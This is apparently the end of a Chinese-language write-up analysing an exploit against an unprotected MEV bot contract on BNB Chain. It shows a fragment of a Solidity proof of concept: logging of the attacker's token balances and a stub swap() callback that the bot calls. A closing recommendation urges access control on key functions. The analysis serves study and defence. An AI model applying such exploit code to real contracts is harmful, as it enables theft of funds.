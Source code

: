 ```solidity
        emit log_named_decimal_uint("[After] Attacker BSCUSD balance before exploit", BSCUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker WBNB balance before exploit", WBNB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker BUSD balance before exploit", BUSD.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker USDC balance before exploit", USDC.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker BTCB balance before exploit", BTCB.balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[After] Attacker ETH balance before exploit", ETH.balanceOf(address(this)), 18);
    }

    function swap(uint256 amount0, uint256 amount1, address to, bytes calldata data) public {
        // 没啥用，只是因为MEV机器人合约需要回调 调用者 的swap方法，因此需要补一下这个方法
    }

}
```

## 建议

无论是否验证合约，在关键的方法中，一定要做权限验证，不要认为合约没有验证就是安全的。本次攻击是产生在于MEV机器人认为自己的合约没有验证，以为很安全，没有人会调用它的方法，因此没有设置权限验证，结果被黑客发现了，然后获利。











